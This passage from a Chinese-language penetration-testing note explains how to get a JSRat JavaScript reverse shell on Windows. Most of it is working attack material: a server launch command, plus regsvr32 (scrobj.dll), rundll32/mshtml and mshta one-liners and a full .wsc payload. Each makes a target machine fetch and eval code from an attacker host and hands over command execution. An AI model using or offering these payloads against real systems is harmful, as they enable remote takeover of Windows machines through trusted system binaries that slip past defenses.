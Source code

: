 	https://github.com/Hood3dRob1n/JSRat-Py
	https://github.com/Ridter/MyJSRat
	启动
	>python JSRat.py -i 192.168.0.107 -p 1234
	MyJSRat可以-c参数指定执行的命令
![image](/assets/Pentest_Note/master/img/247.png)

	/connect是回连地址，/wtf是执行代码
![image](/assets/Pentest_Note/master/img/248.png)

	直接在靶机执行
![image](/assets/Pentest_Note/master/img/249.png)

	或
	>regsvr32.exe /u /n /s /i:http://192.168.0.107:1234/file.sct scrobj.dll
	JSRat显示上线
![image](/assets/Pentest_Note/master/img/250.png)
![image](/assets/Pentest_Note/master/img/251.png)

	Wsc方式
```xml
<?xml version="1.0"?>
<package>
<component id="testCalc">
<script language="JScript">
<![CDATA[
        rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://192.168.0.107:1234/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
        new ActiveXObject("WScript.Shell").Run(rat,0,true);
]]>
</script>
</component>
</package>

```
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://192.168.0.107/jsrat.wsc")
	Mshta方式
	>mshta javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.0.107:1234/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im mshta.exe",0,true);}
